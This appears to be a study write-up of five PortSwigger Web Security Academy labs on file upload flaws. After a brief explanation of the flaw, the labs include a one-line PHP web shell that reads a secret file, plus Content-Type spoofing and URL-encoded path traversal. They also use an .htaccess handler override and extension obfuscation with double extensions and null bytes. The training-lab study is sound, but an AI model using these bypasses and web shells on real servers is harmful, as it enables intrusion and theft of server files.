










# What are file upload vulnerabilities?

File upload section is on almost every website on the internet. Being able to upload something to the server is by itself somtething we must watch out for. We must watch out and validate exactly what filename, file type, content and size could be uploaded to our server.

If we don't invest enough time into this vulnerability even the file upload section can be used arbitrary and potentially dangerous files instead.

In some cases file upload itself can cause harm to our server but in the other versions of attack hacker follow file upload with HTTP request for the file to trigger its execution on server.

# What are exploits of file upload attacks?

The impact depends of two factors:

- which aspect of file validation website fails (size, content, type...)
- what restrictions are imposed on the file once it has been successfully uploaded.

**type** - if not validated it allows attackers to upload scripts that potentially can be run on the server (depends on server configuration)

**name** - if not validated it allows attackers to upload file with the same filename as some critical files and it could be overwritten.

**size** - denial-of-service (DoS) attack

# What is the cause of weak validation

Even though this is one obvious danger and almost every site on the web implement robust validation it can be overlooked sometimes. For example:

- Blacklist doesn't contain every harming file
- Some file properties can be manipulated in programs like Burp proxy or repeater to bypas validation
- validation could be incositent accross website

# How to protect?

# 🟢 1. Remote code execution via web shell upload

- Login into the account with `wiener:peter`
- Upload web shell script to the avatar file upload
- Run the script by visiting this url: `https://0a4500da043d98e580b7fd63002300cd.web-security-academy.net/files/avatars/web_shell.php`

### Web shell script (web_shell.php)

`<?php echo file_get_contents('/home/carlos/secret');`

### Result

# 🟢 2. Web shell upload via Content-Type restriction bypass

- Login into the account with `wiener:peter`
- Upload web shell script to the avatar file upload manipulating content-type header (first try to upload php on website and put that request to repeater then update content type of avatar field and add php code bellow)
- Run the script by visiting this url: `https://0a4500da043d98e580b7fd63002300cd.web-security-academy.net/files/avatars/webshell.php`

### Uploading .php file using content type manipulation

### Result

# 🔵 3. Web shell upload via path traversal

- Upload php file to the `files/avatars/webshell.php`
- Try to execute it but just print of its content shown
  
- Try uploading to the root directory because perimssions might be different, path traversal is stripped
  
  In some contexts, such as in a URL path or the filename parameter of a multipart/form-data request, web servers may strip any directory traversal sequences before passing your input to the application. You can sometimes bypass this kind of sanitization by URL encoding, or even double URL encoding, the ../ characters. This results in %2e%2e%2f and %252e%252e%252f respectively. Various non-standard encodings, such as ..%c0%af or ..%ef%bc%8f, may also work.
- After adding `%2e%2e%2f` file was uploaded with success
  
- And the webshell was executed
  

# 🔵 4. Web shell upload via extension blacklist bypass

Material used:

- https://medium.com/@vipulparveenjain/insufficient-blacklisting-of-dangerous-file-types-file-upload-vulnerability-series-part-3b-i-e1d4cb897570

Tried uploading `web.config` to treat .php files as executables but it didn't work out.

Than tried uploading `.htaccess` where I set new file extension `.andjela` to be threated as php executable.

`AddType application/x-httpd-php .andjela`

Then I uploaded the php file with the malicious script with new extension: `webshell.andjela`

`<?php echo file_get_contents('/home/carlos/secret');`

`

# 🔵 5. Web shell upload via obfuscated file extension

Possible techniques:

1. Provide multiple extensions `exploit.php.jpg`
2. Try using the URL encoding (or double URL encoding) for dots, forward slashes, and backward slashes `exploit%2Ephp`
3. Add semicolons or URL-encoded null byte characters before the file extension `exploit.asp;.jpg`, `exploit.asp%00.jpg`
4. Try using multibyte unicode characters, which may be converted to null bytes and dots after unicode conversion or normalization. Sequences like xC0 x2E, xC4 xAE or xC0 xAE may be translated to x2E if the filename parsed as a UTF-8 string, but then converted to ASCII characters before being used in a path.

Work process:

- Tried uploading `.php` file but didn't work
- Placed the post request into Burp repeater
- Tried every possible vulnerability with obfuscation until success
- When I saw response message is saying that file is saved at `avatars/webshell.php` without and suffix I checked the file in browser and got code.

